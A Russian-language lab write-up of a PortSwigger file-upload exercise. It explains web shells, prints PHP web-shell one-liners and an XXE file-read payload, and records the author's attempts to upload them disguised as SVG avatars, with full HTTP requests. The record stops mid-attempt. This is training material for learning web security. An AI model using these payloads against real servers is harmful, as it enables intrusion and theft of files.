




#### Веб-оболочка

Веб-оболочка - это вредоносный скрипт, который позволяет злоумышленнику выполнять произвольные команды на удаленном веб-сервере, просто отправляя HTTP-запросы в ну конечную точку.

Если вы можете успешно загрузить веб-оболоку, вы фактически имеете полный контроль над сервером. Это означает, что вы можете читать и записывать произвольные файлы, эксфильтрировать конфиденциальные данные, даже использовать сервер для поворота атак как на внутреннюю инфраструктуру, так и на другие серверы за пределами сети. Например, следующий PHP one-liner может быть использован для чтения произвольных файлов из файловой системы сервера:

`<?php echo file_get_contents('/path/to/target/file'); ?>`

После загрузки отправка запроса на этот вредоносный файл вернет содержимое целевого файла в ответе.

------

apache и nginx по умолчанию настроены на выполнение php, потому что это основной язык для веба на многих хостингах  
python и js обычно не выполняются напрямую сервером - для python нужен wsgi, для js нужен node.js

---------

Более универсальная веб-оболочка может выглядеть примерно так:

`<?php echo system($_GET['command']); ?>`

Этот скрипт позволяет передать произвольную системную команду через параметр запроса следующим образом:

`GET /example/exploit.php?command=id HTTP/1.1`

---------

лаба https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload
#### удаленное выполнение кода через загрузку Web-Shell-Upload

задание:
Чтобы решить лабораторную работу, загрузите базовую веб-оболочку PHP и используйте ее для извлечения содержимого файла `/home/carlos/secret`. Отправьте этот секрет, используя кнопку, указанную на баннере лаборатории


-----
имеется вот такая вот форма для загрузки аватарки


выбрал на компе файл типа svg и загрузил

вот полный код запроса загрузки
```http
POST /my-account/avatar HTTP/1.1
Host: 0a6a00a203394535801f5dc7000f004c.web-security-academy.net
Cookie: session=EXixgRe73MeviOpvsz8936e7unW08bJ0
Content-Length: 20150
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0a6a00a203394535801f5dc7000f004c.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryC6Ct08Bk4kUifXby
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a6a00a203394535801f5dc7000f004c.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive

------WebKitFormBoundaryC6Ct08Bk4kUifXby
Content-Disposition: form-data; name="avatar"; filename="Frame 14.svg"
Content-Type: image/svg+xml

<svg width="136" height="136" viewBox="0 0 136 136" fill="none" xmlns="http://www.w3.org/2000/svg">
<g clip-path="url(#clip0_129_28)">
<rect width="136" height="136" fill="white"/>
<path 

сам код SVG сократил для отчета (там просто "нолики да единиы")

Z" fill="white"/>
</g>
</g>
<defs>
<filter id="filter0_d_129_28" x="39.4961" y="39.5977" width="67.9531" height="75.3945" filterUnits="userSpaceOnUse" color-interpolation-filters="sRGB">
<feFlood flood-opacity="0" result="BackgroundImageFix"/>
<feColorMatrix in="SourceAlpha" type="matrix" values="0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 127 0" result="hardAlpha"/>
<feOffset dy="4"/>
<feGaussianBlur stdDeviation="2"/>
<feComposite in2="hardAlpha" operator="out"/>
<feColorMatrix type="matrix" values="0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0.25 0"/>
<feBlend mode="normal" in2="BackgroundImageFix" result="effect1_dropShadow_129_28"/>
<feBlend mode="normal" in="SourceGraphic" in2="effect1_dropShadow_129_28" result="shape"/>
</filter>
<filter id="filter1_d_129_28" x="15.9688" y="25.8984" width="86.2969" height="105.617" filterUnits="userSpaceOnUse" color-interpolation-filters="sRGB">
<feFlood flood-opacity="0" result="BackgroundImageFix"/>
<feColorMatrix in="SourceAlpha" type="matrix" values="0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 127 0" result="hardAlpha"/>
<feOffset dy="4"/>
<feGaussianBlur stdDeviation="2"/>
<feComposite in2="hardAlpha" operator="out"/>
<feColorMatrix type="matrix" values="0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0.25 0"/>
<feBlend mode="normal" in2="BackgroundImageFix" result="effect1_dropShadow_129_28"/>
<feBlend mode="normal" in="SourceGraphic" in2="effect1_dropShadow_129_28" result="shape"/>
</filter>
<filter id="filter2_d_129_28" x="39.8203" y="27.3066" width="81.6758" height="94.459" filterUnits="userSpaceOnUse" color-interpolation-filters="sRGB">
<feFlood flood-opacity="0" result="BackgroundImageFix"/>
<feColorMatrix in="SourceAlpha" type="matrix" values="0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 127 0" result="hardAlpha"/>
<feOffset dy="4"/>
<feGaussianBlur stdDeviation="2"/>
<feComposite in2="hardAlpha" operator="out"/>
<feColorMatrix type="matrix" values="0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0.25 0"/>
<feBlend mode="normal" in2="BackgroundImageFix" result="effect1_dropShadow_129_28"/>
<feBlend mode="normal" in="SourceGraphic" in2="effect1_dropShadow_129_28" result="shape"/>
</filter>
<linearGradient id="paint0_linear_129_28" x1="34.4658" y1="102.508" x2="42.8616" y2="141.434" gradientUnits="userSpaceOnUse">
<stop offset="1"/>
</linearGradient>
<linearGradient id="paint1_linear_129_28" x1="68.0548" y1="-34.6861" x2="68.0548" y2="107.54" gradientUnits="userSpaceOnUse">
<stop stop-color="#F5F5F5"/>
<stop offset="0.452924" stop-color="#44A050"/>
<stop offset="1" stop-color="#171A17"/>
</linearGradient>
<clipPath id="clip0_129_28">
<rect width="136" height="136" fill="white"/>
</clipPath>
</defs>
</svg>

------WebKitFormBoundaryC6Ct08Bk4kUifXby
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryC6Ct08Bk4kUifXby
Content-Disposition: form-data; name="csrf"

3mWe1wCv5QmatX6UmcZbf1yMVIBTdlqT
------WebKitFormBoundaryC6Ct08Bk4kUifXby--

```

> тело сообщения разделено на отдельные части для каждого из входных данных формы. Каждая часть содержит заголовок `Content-Disposition`, который предоставляет некоторую основную информацию о поле ввода, к которому она относится. Эти отдельные части также могут содержать свой собственный заголовок `Content-Type`, который сообщает серверу тип MIME данных, которые были отправлены с использованием этого входного сигнала


вот ответ на запрос
```http
HTTP/2 200 OK
Date: Thu, 19 Mar 2026 08:21:47 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 133

The file avatars/Frame 14.svg has been uploaded.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>

```

-------


также - я открыл на компе сам svg файл - но через текст редактор
```xml
<svg width="136" height="136" viewBox="0 0 136 136" fill="none" xmlns="http://www.w3.org/2000/svg">
<g clip-path="url(#clip0_129_28)">
<rect width="136" height="136" fill="white"/>
<path d="M0 68C0 30.4446 30.4446 0 68 0C105.555 0 136 30.4446 136 68C136 105.555 105.555 136 68 136C30.4446 136 0 105.555 0 68Z" fill="url(#paint0_linear_129_28)" fill-opacity="0.2"/>
<path d="M0 68C0 30.4446 30.4446 0 68 0C105.555 0 136 30.4446 136 68C136 105.555 105.555 136 68 136C30.4446 136 0 105.555 0 68Z" fill="url(#paint1_linear_129_28)"/>
<path d="M47.9009 
сократил для отчета
56Z" fill="white"/>
<g filter="url(#filter0_d_129_28)">
<path d="M49.6096 95.5541L48.8421 96.8917C48.3044 97.8288 47.4983 98.5833 46.5276 99.0578L46.4083 99.1161C44.6262
сократил для отчета
Z" fill="white"/>
</g>
<g filter="url(#filter1_d_129_28)">
<path d="M25.8817 120.441L23.7039 121.21L21.1125 122.031C21.0894 122.039 21.0654 122.042 21.0413 
сократил для отчета
Z" fill="white"/>
</g>
<g filter="url(#filter2_d_129_28)">
<path d="M64.3791 99.1744L55.7062 104.898C55.0841 105.309 54.4257 105.662 53.7394 105.953C51.9342 106.718 50.339
сократил для отчета
Z" fill="white"/>
</g>
</g>
<defs>
<filter id="filter0_d_129_28" x="39.4961" y="39.5977" width="67.9531" height="75.3945" filterUnits="userSpaceOnUse" color-interpolation-filters="sRGB">
<feFlood flood-opacity="0" result="BackgroundImageFix"/>
<feColorMatrix in="SourceAlpha" type="matrix" values="0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 127 0" result="hardAlpha"/>
<feOffset dy="4"/>
<feGaussianBlur stdDeviation="2"/>
<feComposite in2="hardAlpha" operator="out"/>
<feColorMatrix type="matrix" values="0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0.25 0"/>
<feBlend mode="normal" in2="BackgroundImageFix" result="effect1_dropShadow_129_28"/>
<feBlend mode="normal" in="SourceGraphic" in2="effect1_dropShadow_129_28" result="shape"/>
</filter>
<filter id="filter1_d_129_28" x="15.9688" y="25.8984" width="86.2969" height="105.617" filterUnits="userSpaceOnUse" color-interpolation-filters="sRGB">
<feFlood flood-opacity="0" result="BackgroundImageFix"/>
<feColorMatrix in="SourceAlpha" type="matrix" values="0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 127 0" result="hardAlpha"/>
<feOffset dy="4"/>
<feGaussianBlur stdDeviation="2"/>
<feComposite in2="hardAlpha" operator="out"/>
<feColorMatrix type="matrix" values="0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0.25 0"/>
<feBlend mode="normal" in2="BackgroundImageFix" result="effect1_dropShadow_129_28"/>
<feBlend mode="normal" in="SourceGraphic" in2="effect1_dropShadow_129_28" result="shape"/>
</filter>
<filter id="filter2_d_129_28" x="39.8203" y="27.3066" width="81.6758" height="94.459" filterUnits="userSpaceOnUse" color-interpolation-filters="sRGB">
<feFlood flood-opacity="0" result="BackgroundImageFix"/>
<feColorMatrix in="SourceAlpha" type="matrix" values="0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 127 0" result="hardAlpha"/>
<feOffset dy="4"/>
<feGaussianBlur stdDeviation="2"/>
<feComposite in2="hardAlpha" operator="out"/>
<feColorMatrix type="matrix" values="0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0.25 0"/>
<feBlend mode="normal" in2="BackgroundImageFix" result="effect1_dropShadow_129_28"/>
<feBlend mode="normal" in="SourceGraphic" in2="effect1_dropShadow_129_28" result="shape"/>
</filter>
<linearGradient id="paint0_linear_129_28" x1="34.4658" y1="102.508" x2="42.8616" y2="141.434" gradientUnits="userSpaceOnUse">
<stop offset="1"/>
</linearGradient>
<linearGradient id="paint1_linear_129_28" x1="68.0548" y1="-34.6861" x2="68.0548" y2="107.54" gradientUnits="userSpaceOnUse">
<stop stop-color="#F5F5F5"/>
<stop offset="0.452924" stop-color="#44A050"/>
<stop offset="1" stop-color="#171A17"/>
</linearGradient>
<clipPath id="clip0_129_28">
<rect width="136" height="136" fill="white"/>
</clipPath>
</defs>
</svg>

```
это svg картинка!

----

#### подробнее про XML разметку можно почитать здесь [[0_theory_XML_(XXE)]]

там например есть пейлоады
Чтение файлов (самое частое)
```xml
<!DOCTYPE root [ <!ENTITY file SYSTEM "file:///c:/windows/win.ini"> ]>
<данные>&file;</данные>
```
→ придет содержимое системного файла Windows

-----
мне же нужно через веб оболочку загрузить файл     ->  /home/carlos/secret
`<?php echo file_get_contents('/home/carlos/secret'); ?>`

пробую внедрить эту команду в swg код картинки через текстовый редактор
```xml
<svg width="136" height="136" viewBox="0 0 136 136" fill="none" xmlns="http://www.w3.org/2000/svg">
<g clip-path="url(#clip0_129_28)">
<rect width="136" height="136" fill="white"/>
<path d="M0 68C0 30.4446 30.4446 0 68 0C105.555 0 136 30.4446 136 68C136 105.555 105.555 136 68 136C30.4446 136 0 105.555 0 68Z" fill="url(#paint0_linear_129_28)" fill-opacity="0.2"/>
<path d="M0 68C0 30.4446 30.4446 0 68 0C105.555 0 136 30.4446 136 68C136 105.555 105.555 136 68 136C30.4446 136 0 105.555 0 68Z" fill="url(#paint1_linear_129_28)"/>
<path d="M47.9009 

СОКРАЩАЮ ЧАСТИ

.2016 108.173 48.9735 109.294 47.9009 110.556Z" fill="white"/>
<g filter="url(#filter0_d_129_28)">
<path d="M49.6096 95.5541L48.8421 96.8917C48.3044 97.8288 47.4983 98.5833 46.5276 99.0578L46.4083 99.

СОКРАЩАЮ ЧАСТИ

 95.5541Z" fill="white"/>
</g>
<g filter="url(#filter1_d_129_28)">
<path d="M25.8817 120.441L23.7039 121.21L21.1125 122.031C21.0894 122.039 21.0654 122.042 21.0413 

СОКРАЩАЮ ЧАСТИ

25.8817 120.441Z" fill="white"/>
</g>
<g filter="url(#filter2_d_129_28)">
<path d="M64.3791 99.1744L55.7062 104.898C55.0841 105.309 54.4257 105.662 53.7394 105.953C51.9342 106.718 50.3391 107.905 49.0885 109.415L45.827 113.353C45.7689 113.423 45.7026 113.486 45.6294 113.54C44.8693 

СОКРАЩАЮ ЧАСТИ

 95.7796C71.3271 95.7796 68.4338 96.6161 65.9359 98.1922L64.3791 99.1744Z" fill="white"/>
</g>
</g>
<defs>
<filter id="filter0_d_129_28" x="39.4961" y="39.5977" width="67.9531" height="75.3945" filterUnits="userSpaceOnUse" color-interpolation-filters="sRGB">
<feFlood flood-opacity="0" result="BackgroundImageFix"/>
<feColorMatrix in="SourceAlpha" type="matrix" values="0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 127 0" result="hardAlpha"/>
<feOffset dy="4"/>
<feGaussianBlur stdDeviation="2"/>
<feComposite in2="hardAlpha" operator="out"/>
<feColorMatrix type="matrix" values="0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0.25 0"/>
<feBlend mode="normal" in2="BackgroundImageFix" result="effect1_dropShadow_129_28"/>
<feBlend mode="normal" in="SourceGraphic" in2="effect1_dropShadow_129_28" result="shape"/>
</filter>
<filter id="filter1_d_129_28" x="15.9688" y="25.8984" width="86.2969" height="105.617" filterUnits="userSpaceOnUse" color-interpolation-filters="sRGB">
<feFlood flood-opacity="0" result="BackgroundImageFix"/>
<feColorMatrix in="SourceAlpha" type="matrix" values="0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 127 0" result="hardAlpha"/>
<feOffset dy="4"/>
<feGaussianBlur stdDeviation="2"/>
<feComposite in2="hardAlpha" operator="out"/>
<feColorMatrix type="matrix" values="0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0.25 0"/>
<feBlend mode="normal" in2="BackgroundImageFix" result="effect1_dropShadow_129_28"/>
<feBlend mode="normal" in="SourceGraphic" in2="effect1_dropShadow_129_28" result="shape"/>
</filter>
<filter id="filter2_d_129_28" x="39.8203" y="27.3066" width="81.6758" height="94.459" filterUnits="userSpaceOnUse" color-interpolation-filters="sRGB">
<feFlood flood-opacity="0" result="BackgroundImageFix"/>
<feColorMatrix in="SourceAlpha" type="matrix" values="0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 127 0" result="hardAlpha"/>
<feOffset dy="4"/>
<feGaussianBlur stdDeviation="2"/>
<feComposite in2="hardAlpha" operator="out"/>
<feColorMatrix type="matrix" values="0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0.25 0"/>
<feBlend mode="normal" in2="BackgroundImageFix" result="effect1_dropShadow_129_28"/>
<feBlend mode="normal" in="SourceGraphic" in2="effect1_dropShadow_129_28" result="shape"/>
</filter>
<linearGradient id="paint0_linear_129_28" x1="34.4658" y1="102.508" x2="42.8616" y2="141.434" gradientUnits="userSpaceOnUse">
<stop offset="1"/>
</linearGradient>
<linearGradient id="paint1_linear_129_28" x1="68.0548" y1="-34.6861" x2="68.0548" y2="107.54" gradientUnits="userSpaceOnUse">
<stop stop-color="#F5F5F5"/>
<stop offset="0.452924" stop-color="#44A050"/>
<stop offset="1" stop-color="#171A17"/>
</linearGradient>
<clipPath id="clip0_129_28">
<rect width="136" height="136" fill="white"/>
</clipPath>
</defs>
</svg>

```


ИЛИ МОЖЕТ МОЖНО СРАЗУ ПРОБОВАТЬ ПЕЙЛОАД ЗАКИНУТЬ НАПРЯМУЮ ТУДА ТИПО ТАК-
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///home/carlos/secret"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

Сделал запрос
```http
POST /my-account/avatar HTTP/2
Host: 0a6a00a203394535801f5dc7000f004c.web-security-academy.net
Cookie: session=EXixgRe73MeviOpvsz8936e7unW08bJ0
...
..
.
Connection: keep-alive

------WebKitFormBoundaryC6Ct08Bk4kUifXby
Content-Disposition: form-data; name="avatar"; filename="Frame 14.svg"
Content-Type: image/svg+xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///home/carlos/secret"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>

------WebKitFormBoundaryC6Ct08Bk4kUifXby
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryC6Ct08Bk4kUifXby
Content-Disposition: form-data; name="csrf"

3mWe1wCv5QmatX6UmcZbf1yMVIBTdlqT
------WebKitFormBoundaryC6Ct08Bk4kUifXby--

```

 и успешно получил 200 овтет!
```c
The file avatars/Frame 14.svg has been uploaded.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>
```




и теперь при загрузке аватарки - вместо нее вот такой файл приходит
```xml
This XML file does not appear to have any style information associated with it. The document tree is shown below.  

<stockCheck>

<productId/>

<storeId>1</storeId>

</stockCheck>
```





то есть - не никакой провеки того, что я гружу туда!

XML с DOCTYPE не сработал, потому что:

- сервер не парсит XML-сущности (XXE выключен)
   
- либо парсер просто проигнорировал DOCTYPE
   
- и я получил пустой `<productId/>` - сущность не подставилась..

----


отправляю тоже в наглую запрос


```http
POST /my-account/avatar HTTP/2
Host: 0a6a00a203394535801f5dc7000f004c.web-security-academy.net
Cookie: session=EXixgRe73MeviOpvsz8936e7unW08bJ0
Content-Length: 469
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0a6a00a203394535801f5dc7000f004c.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryC6Ct08Bk4kUifXby
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a6a00a203394535801f5dc7000f004c.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

------WebKitFormBoundaryC6Ct08Bk4kUifXby
Content-Disposition: form-data; name="avatar"; filename="Frame 14.svg"
Content-Type: image/svg+xml

<?php echo file_get_contents('/home/carlos/secret'); ?>

------WebKitFormBoundaryC6Ct08Bk4kUifXby
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryC6Ct08Bk4kUifXby
Content-Disposition: form-data; name="csrf"

3mWe1wCv5QmatX6UmcZbf1yMVIBTdlqT
------WebKitFormBoundaryC6Ct08Bk4kUifXby--

```
ответ 200 - загрузился
и при загрузке аватарки - вот ответ:

сперва вернул ответ
HTTP/2 304 Not Modified

потом вернул то, что я потправил
```http
HTTP/2 200 OK
Date: Thu, 19 Mar 2026 08:43:09 GMT
Server: Apache/2.4.41 (Ubuntu)
Last-Modified: Thu, 19 Mar 2026 08:42:11 GMT
Etag: "3a-64d5c8b6c0473"
Accept-Ranges: bytes
Content-Type: image/svg+xml
X-Frame-Options: SAMEORIGIN
Content-Length: 58

<?php echo file_get_contents('/home/carlos/secret'); ?>
```




------

попробую все-таки поместить свой эксплойт прямо в svg картинку

```xml
<svg width="136" height="136">
  <script>
    <![CDATA[
      <?php echo file_get_contents('/home/carlos/secret'); ?>
    ]]>
  </script>
  ... остальной SVG  ...
</svg>
```
вот так:
```js
POST /my-account/avatar HTTP/2
Host: 0a6a00a203394535801f5dc7000f004c.web-security-academy.net
Cookie: session=EXixgRe73MeviOpvsz8936e7unW08bJ0
Content-Length: 20261
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0a6a00a203394535801f5dc7000f004c.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryC6Ct08Bk4kUifXby
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a6a00a203394535801f5dc7000f004c.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


------WebKitFormBoundaryC6Ct08Bk4kUifXby
Content-Disposition: form-data; name="avatar"; filename="Frame 14.svg"
Content-Type: image/svg+xml

<svg width="136" height="136" viewBox="0 0 136 136" fill="none" xmlns="http://www.w3.org/2000/svg">
 <script>
    <![CDATA[
      <?php echo file_get_contents('/home/carlos/secret'); ?> 👈🍺 ВОТ СКРИПТ
    ]]>
  </script>
<g clip-path="url(#clip0_129_28)">
<rect width="136" height="136" fill="white"/>
<path d="M0 68C0 30.4446 30.4446 0 68 0C105.555 0 136 30.4446 136 68C136 105.555 105.555 136 68 136C30.4446 136 0 105.555 0 68Z" fill="url(#paint0_linear_129_28)" fill-opacity="0.2"/>
<path d="M0 68C0 30.4446 30.4446 0 68 0C105.555 0 136 30.4446 136 68C136 105.555 105.555 136 68 136C30.4446 136 0 105.555 0 68Z" fill="url(#paint1_linear_129_28)"/>
<path d="M47.90
чуть обрезал, для отчета
C50.2016 108.173 48.9735 109.294 47.9009 110.556Z" fill="white"/>
<g filter="url(#filter0_d_129_28)">
<path d="M49.6096 9
чуть обрезал, для отчета
1Z" fill="white"/>
</g>
<g filter="url(#filter1_d_129_28)">
<path d="M25.8817 120.441L23.7039 121.21L21.1125 122.031C21.0894 122.039 21.0654 122.042 21.0413 122.042H20.

чуть обрезал, для отчета

1Z" fill="white"/>
</g>
<g filter="url(#filter2_d_129_28)">
<path d="M64.3791 99.1744L55.7062 104.898C55.0841 105.309 54.4257 105.662 53.7394 105.953C51.9342 106.718 50.3391 107.905 49.0885 109.415L45.827 113.353C45.7689 113.423 45.7026 113.486 45.6294 113.54C44.8693 114
чуть обрезал, для отчета

" fill="white"/>
</g>
</g>
<defs>
<filter id="filter0_d_129_28" x="39.4961" y="39.5977" width="67.9531" height="75.3945" filterUnits="userSpaceOnUse" color-interpolation-filters="sRGB">
<feFlood flood-opacity="0" result="BackgroundImageFix"/>
<feColorMatrix in="SourceAlpha" type="matrix" values="0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 127 0" result="hardAlpha"/>
<feOffset dy="4"/>
<feGaussianBlur stdDeviation="2"/>
<feComposite in2="hardAlpha" operator="out"/>
<feColorMatrix type="matrix" values="0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0.25 0"/>
<feBlend mode="normal" in2="BackgroundImageFix" result="effect1_dropShadow_129_28"/>
<feBlend mode="normal" in="SourceGraphic" in2="effect1_dropShadow_129_28" result="shape"/>
</filter>
<filter id="filter1_d_129_28" x="15.9688" y="25.8984" width="86.2969" height="105.617" filterUnits="userSpaceOnUse" color-interpolation-filters="sRGB">
<feFlood flood-opacity="0" result="BackgroundImageFix"/>
<feColorMatrix in="SourceAlpha" type="matrix" values="0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 127 0" result="hardAlpha"/>
<feOffset dy="4"/>
<feGaussianBlur stdDeviation="2"/>
<feComposite in2="hardAlpha" operator="out"/>
<feColorMatrix type="matrix" values="0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0.25 0"/>
<feBlend mode="normal" in2="BackgroundImageFix" result="effect1_dropShadow_129_28"/>
<feBlend mode="normal" in="SourceGraphic" in2="effect1_dropShadow_129_28" result="shape"/>
</filter>
<filter id="filter2_d_129_28" x="39.8203" y="27.3066" width="81.6758" height="94.459" filterUnits="userSpaceOnUse" color-interpolation-filters="sRGB">
<feFlood flood-opacity="0" result="BackgroundImageFix"/>
<feColorMatrix in="SourceAlpha" type="matrix" values="0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 127 0" result="hardAlpha"/>
<feOffset dy="4"/>
<feGaussianBlur stdDeviation="2"/>
<feComposite in2="hardAlpha" operator="out"/>
<feColorMatrix type="matrix" values="0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0.25 0"/>
<feBlend mode="normal" in2="BackgroundImageFix" result="effect1_dropShadow_129_28"/>
<feBlend mode="normal" in="SourceGraphic" in2="effect1_dropShadow_129_28" result="shape"/>
</filter>
<linearGradient id="paint0_linear_129_28" x1="34.4658" y1="102.508" x2="42.8616" y2="141.434" gradientUnits="userSpaceOnUse">
<stop offset="1"/>
</linearGradient>
<linearGradient id="paint1_linear_129_28" x1="68.0548" y1="-34.6861" x2="68.0548" y2="107.54" gradientUnits="userSpaceOnUse">
<stop stop-color="#F5F5F5"/>
<stop offset="0.452924" stop-color="#44A050"/>
<stop offset="1" stop-color="#171A17"/>
</linearGradient>
<clipPath id="clip0_129_28">
